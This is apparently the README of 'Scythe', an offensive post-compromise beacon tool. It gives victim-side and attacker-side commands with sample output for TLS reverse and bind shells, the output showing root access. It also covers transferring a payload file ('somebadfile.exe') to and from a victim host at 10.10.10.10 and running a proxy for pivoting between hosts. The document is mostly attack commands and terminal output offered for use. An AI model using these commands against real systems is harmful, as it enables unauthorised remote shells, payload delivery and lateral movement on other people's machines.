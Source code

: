 # Scythe
All in one beacon to drop on a compromised host


## Build

* Please look at github actions or just use the dockerfile to build for your platform.

## Netcat

Remember to use --proxy if you plan to pivot between hosts

### Reverse Shell

* Victim:

```
root@f44b79805a1e:~/cmd# ./ScytheLinux Netcat --address 172.17.0.2 --reverse --port 8000 --tls
2024/06/13 22:45:18 [*] Rev shell spawning, connecting to 172.17.0.2:8000
2024/06/13 22:45:18 Linux

```

* Attacker:

```
root@fcbc11f4beba:~/cmd# ./ScytheLinux Netcat --listen --port 8000 --tls 
2024/06/13 22:45:06 Listener opened on :8000
2024/06/13 22:45:09 Received connection from 172.17.0.3:57398!
whoami
root

```

### Bind Shell:

* Victim:

```
root@fcbc11f4beba:~/cmd# ./ScytheLinux Netcat --bind --port 8000 --tls
2024/06/13 22:45:57 [*] Binding shell spawning for remote code execution
2024/06/13 22:46:02 Received connection from 172.17.0.3:49050!

```

* Attacker:

```
root@f44b79805a1e:~/cmd# ./ScytheLinux Netcat --address 172.17.0.2 --caller --port 8000 --tls
2024/06/13 22:46:02 [*] Bind shell spawning, connecting to 172.17.0.2:8000
whoami
root

```

## File Transfer

### Download

* Victim

```
./Scythe.exe FileTransfer --download --filename somebadfile.exe --hostname 10.10.10.10 --port 8080 --tls
```

* Attacker

```
./Scythe FileTransfer --listen --port 8080 --tls
```


### Upload

* Attacker

```
./Scythe.exe FileTransfer --filename somebadfile.exe --port 8080 --send --tls
```

* Victim

```
./Scythe.exe FileTransfer --listen --filename somebadfile.exe --port 8080 --tls
```

## Proxy

* Proxy server

```
./Scythe Proxy --port 9050 
```


